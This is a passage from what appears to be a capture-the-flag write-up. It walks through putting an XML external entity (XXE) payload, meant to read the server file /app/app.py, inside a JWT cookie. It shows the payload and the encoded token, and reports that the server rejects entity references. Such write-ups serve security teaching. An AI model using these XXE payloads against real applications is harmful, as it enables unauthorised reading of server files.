
If we make this all one line and deal with quoting escaping, here is what a jwt.io PAYLOAD might look like:

  

```

{

  "data": "<?xml version=\"1.0\"?><!DOCTYPE data [<!ENTITY file SYSTEM \"file:///app/app.py\">]><data><username>&file;</username></data>"

}

```

  

This produces a JWT like:

  

```

eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJkYXRhIjoiPD94bWwgdmVyc2lvbj1cIjEuMFwiPz48IURPQ1RZUEUgZGF0YSBbPCFFTlRJVFkgZmlsZSBTWVNURU0gXCJmaWxlOi8vL2FwcC9hcHAucHlcIj5dPjxkYXRhPjx1c2VybmFtZT4mZmlsZTs8L3VzZXJuYW1lPjwvZGF0YT4ifQ.A_oxB1nuypCU7nDlHWjlfiBme9Aqvq7kSzsi91cSZFk

```

  

If we try this as our cookie value we get this: (here I'm using Burp's Repeater functionality)

  

![image-20240317155705413](/assets/posts/wolvctf2024/image-20240317155705413.png)

  

It is telling us that entity references (like the `&file;`) are not allowed.
